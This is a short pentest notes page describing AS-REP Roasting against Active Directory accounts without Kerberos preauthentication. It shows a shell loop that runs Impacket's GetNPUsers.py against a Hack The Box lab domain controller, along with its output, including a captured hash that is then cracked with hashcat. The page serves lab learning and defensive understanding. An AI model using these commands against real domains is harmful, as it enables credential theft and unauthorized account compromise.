 +++
title = "AS-REP Roasting"
author = ["svejk"]
tags = ["impacket", "pentest", "kerberoasting", "kerberos", "Windows"]
draft = false
+++

## AS-REP Roasting {#as-rep-roasting}

Two key attacks on [Kerberos]({{< relref "kerberos.md" >}}) security in Active Directory include [kerberoasting]({{< relref "kerberoasting.md" >}}) and AS-REP Roasting. Kerberoasting typically requires credentials on the domain to authenticate with. There is an option for an account to have the property “Do not require Kerberos preauthentication” or UF_DONT_REQUIRE_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts.

Use the [Impacket]({{< relref "impacket.md" >}}) tool `GetNPUsers.py` to try to get a hash for each user

```shell
λ ~/ctf/htb/forest/ for user in $(cat usernames.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:25311259ddd6d0e65a4ae2cd898c547b$2328b382956004167ef612abbfd0b3350d362f386d70deadf093d73dd33fadea8bf648d3d7c1cab3565b508a9dafb06cb399ac26e04521ffa22edc882213994257e53976a81b78aaf49dfe02da14f6f76fc7def2a7d4e7e8ff696efa29a1ac4a8df2c0f7856df3c7aa7bbff60e93c1e1fbfc538745a0ffefa3f383d68ddfb4984d1194bc56cc9d168b69a512901815da53cba71a2d0a13c6369fd1b74b9ce3367119502354b2cae4ae3096e5ba4a041fa8a0d1d7f4a92c0f47d2c6ee7bcc73b7f2c3b10955799c807bf43d3035488fb385c68568e770d87d771343e16266ea8f

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

The hash is quickly cracked with `hashcat`.
